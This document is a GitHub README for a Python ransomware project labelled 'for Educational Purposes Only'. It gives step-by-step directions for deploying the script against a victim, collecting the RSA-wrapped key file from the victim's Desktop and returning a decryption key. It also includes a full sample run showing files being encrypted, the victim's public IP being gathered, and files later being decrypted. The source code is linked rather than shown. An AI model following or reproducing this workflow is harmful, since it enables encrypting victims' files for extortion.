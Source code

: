 # Ransomware-in-Python

[![made-with-python](https://img.shields.io/badge/Made%20With-Python-success)](https://www.python.org/)

Ransomeware in Python (for Educational Purposes Only)

## How To Make This Work ?

![](https://raw.githubusercontent.com/whokilleddb/Ransomware-in-Python/main/Images/Ransomware.png)

-> First Generate A **RSA Key Pair** Using The [Key Generation Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/keyGen.py)
-> Transfer the **Public Key (public.pem)** And The [Ransomware Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/Ransomware.py)
-> Transfer Over The **EMAIL_Me.txt** Stored Under The Desktop Directory Of The Current User To The Attacker
-> Decrypt The **EMAIL_Me.txt** Using The **Private RSA Key (.private.pem)** Via The Same Key Generation Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/keyGen.py)
-> A Text File Called **PUT_ME_ON_DESKTOP.txt** Is Generated 
-> Transfer Over **PUT_ME_ON_DESKTOP.txt** To The Victim And Place It In The Desktop Folder
-> BOOM ! The Files Are Decrypted Back !


### Sample Output On A Bodhi Linux :

```
bodhi@bodhi-32 ~/Ransomware> python3 Ransomware.py 
[+] Victim Is Running A Linux Environment
[+] System Root Found At : /home/bodhi
[+] Local Root Found At : /home/bodhi/Ransomware
[+] Public IP Of Victim : 202.142.107.55
[+] Generated Fernet Key As : b'UEoMPNynUBdfDAePrdXa7oYOM30Fd8dtD6X53EO0rIo='
[+] Created Crypter As : <cryptography.fernet.Fernet object at 0xb682958c>
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb682958c>
/home/bodhi/Ransomware/test.txt is Being Encrypted 
/home/bodhi/Ransomware/test.txt Has Been Encrypted 
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb682958c>
/home/bodhi/Ransomware/test.pdf is Being Encrypted 
/home/bodhi/Ransomware/test.pdf Has Been Encrypted 
[+] Wrote Fernet Key Into : fernet_key.txt
[+] Read Fernet Key From fernet_key.txt
[+] Read Public Key From public.pem As <_RSAobj @0xb701dd8c n(2048),e>
[+] Encrypted fernet_key.txt With Attacker's Public RSA Key
[+] Creted EMAIL_ME.txt at /home/bodhi/Desktop 
[+] Nullified Key as b'PJ(\x15\x05\xf2\x83\xfcC\x99\x98J\x1b\xf1t\xf5\xac\xa2\xd3(\xb7\xdbO\xe4\xc4\x9d\xf2\xa9\xf1\xbb\xcb\x17\xe5\xf4\'.H\x93\xae\xedsC\xb8\xd9\x94\x1a\xb8z\xfb\xdbb\xad\x9b\xfd\xf3|\xcar\xc3r\xf5-\xd8\xdd\xc4C[Vj\xc5f\xd4\x93\x85E"\x19\xf2\x9b\x89\xf7\xe7\x8c\xb6\xd8\xfack\x7fX\x81)L9\\<b\x1a\x0c\xce\x1e\xc3\x94\xfd\xd2\x1f\xc5\xee\x06\xd0\xdd\r\x83\x9e\xe071\xfa\x89\x83\x07\xf4\xc3VN\xdfU\x1e\xd0\n\xad["\xef\xd2aR\xe3\xad\x19\xa0\xd3"\x1f \\4\x0eCbs\xc1\xd9~\xb5\xca\x7f\xd7\xa6\x99~\x9e\xda\x17\xc4\r\xeb\xddT\xce\xb7R\xe2S\xf6\xa0\x18h\r\xf7\xde)\x83\xb6>\xe2\xee,\xe9\xf2\xb0\xb4\xedj\x19\xd1\x88\xf0\xe5j\xca\xf5\xcaa&\x0b\x87\xb08\xdc\xb7A\x1c\x9d2~\x11\xdc\x9f\x16M\xfd\xc18\x81f\xe4\xb0\x80\xbbG\xd8\xd3M\x04j\xf7d\'\xf3^\x05| \xdb\xf01\x92\xe6U\x86C\x8b,S\xc4'
[+] Nullified Crypter Object as None
 > Target Encrypted
 > Attack Completed
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'

** (epiphany:4564): WARNING **: 01:00:39.767: webkit_web_context_set_web_process_count_limit is deprecated and does nothing. Limiting the number of web processes is no longer possible for security reasons

** (epiphany:4564): CRITICAL **: 01:00:39.769: void webkit_web_context_register_uri_scheme(WebKitWebContext*, const char*, WebKitURISchemeRequestCallback, gpointer, GDestroyNotify): assertion 'g_ascii_strcasecmp(scheme, "ftp") != 0' failed
Error sending IPC message: Broken pipe
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'
[+] Read Key From /home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt As UEoMPNynUBdfDAePrdXa7oYOM30Fd8dtD6X53EO0rIo=
[+] New Cryptor Object Created As : <cryptography.fernet.Fernet object at 0xb71269ac>
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb71269ac>
/home/bodhi/Ransomware/test.txt is Being Decrypted 
/home/bodhi/Ransomware/test.txt Has Been Decrypted 
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb71269ac>
/home/bodhi/Ransomware/test.pdf is Being Decrypted 
/home/bodhi/Ransomware/test.pdf Has Been Decrypted 
```
